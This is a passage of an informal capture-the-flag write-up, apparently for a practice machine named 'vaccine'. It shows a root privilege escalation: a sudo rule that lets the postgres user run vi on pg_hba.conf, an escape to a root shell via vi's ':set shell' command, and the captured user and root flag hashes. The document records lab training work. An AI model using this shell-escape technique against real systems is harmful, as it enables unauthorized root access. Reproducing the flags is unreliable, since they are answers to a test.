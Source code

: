 Result
```
Matching Defaults entries for postgres on vaccine:  
env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR  
XFILESEARCHPATH XUSERFILESEARCHPATH",  
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,  
mail_badpass  
User postgres may run the following commands on vaccine:  
(ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

User has the ablility to vi as root in /etc/postgresql/11/main/pg_hba.conf

Command
```bash
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

Result
>![[Pasted image 20220928072902.png]]

Use `:` to enter command

Command
```bash
:set shell=/bin/sh
```
```
:set shell
```

Result
```
# whoami  
root  
# id  
uid=0(root) gid=0(root) groups=0(root)  
#
```

Get get to bash
```
# cd /root  
# bash  
root@vaccine:~# ls  
root.txt  
root@vaccine:~#cat root.txt
```

---
## Flags
---
user.text
```bash
ec9b13ca4d6229cd5cc1e09980965bf7
```

root.txt
```
dd6e058e814260bc70e9bbdef2715849

```

---
## Tags
---
#ftp #sql #suid #johntheripper #zip2john #zip #sqlmap
